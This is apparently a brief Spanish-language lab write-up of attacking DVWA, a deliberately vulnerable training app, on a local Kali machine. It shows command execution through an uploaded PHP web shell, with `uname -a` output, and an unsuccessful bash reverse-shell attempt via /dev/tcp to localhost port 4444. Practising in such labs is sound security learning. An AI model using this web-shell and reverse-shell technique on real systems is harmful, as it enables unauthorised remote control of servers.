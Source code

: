 ```
http://localhost/DVWA/hackable/uploads/consola.php?cmd=uname -a


Linux kali 6.8.11-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.8.11-1kali2 (2024-05-30) x86_64 GNU/Linux 
```
Intenté también hacer una reverse shell pero no lo conseguí (al menos de esta manera)
```
http://localhost/DVWA/hackable/uploads/consola.php?cmd=bash -i >& /dev/tcp/localhost/4444 0>&1
```